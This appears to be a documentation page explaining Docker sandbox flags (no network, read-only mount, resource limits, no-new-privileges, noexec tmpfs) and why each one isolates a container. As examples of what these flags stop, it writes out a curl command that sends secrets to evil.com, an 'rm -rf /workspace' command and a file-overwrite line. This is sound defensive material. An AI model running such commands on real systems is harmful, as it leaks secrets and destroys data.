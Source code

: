 ## Understanding the Configuration

### Network: `--network none`

**What it does:** Completely isolates container from all networks

**Why:** Prevents data exfiltration via HTTP/HTTPS/DNS

**Trade-off:** Cannot fetch URLs, make API calls, or access internet

**Example blocked:**
```bash
curl https://evil.com/exfiltrate?data=secrets  # BLOCKED ✅
```

### Filesystem: `-v $(pwd):/workspace:ro`

**What it does:** Mounts project as read-only

**Why:** Prevents file modification, data loss, malicious changes

**Trade-off:** Cannot write files, install packages, or modify code

**Example blocked:**
```bash
rm -rf /workspace  # BLOCKED ✅
echo "malicious" > /workspace/file.py  # BLOCKED ✅
```

### Resources: `--cpus="2.0" --memory="4g"`

**What it does:** Limits CPU to 2 cores, RAM to 4GB

**Why:** Prevents resource exhaustion, system slowdown

**Trade-off:** May run slower on large tasks

**Example mitigated:**
```python
# Infinite loop won't freeze your system
while True:
    pass  # Uses max 2 CPUs ✅
```

### Security: `--security-opt=no-new-privileges`

**What it does:** Prevents privilege escalation

**Why:** Container can't gain root access or escape

**Trade-off:** None (should always use)

### Temporary FS: `--tmpfs /tmp:rw,noexec,nosuid`

**What it does:** Writeable /tmp but no executable permissions

**Why:** Can write temporary files but can't execute malicious code
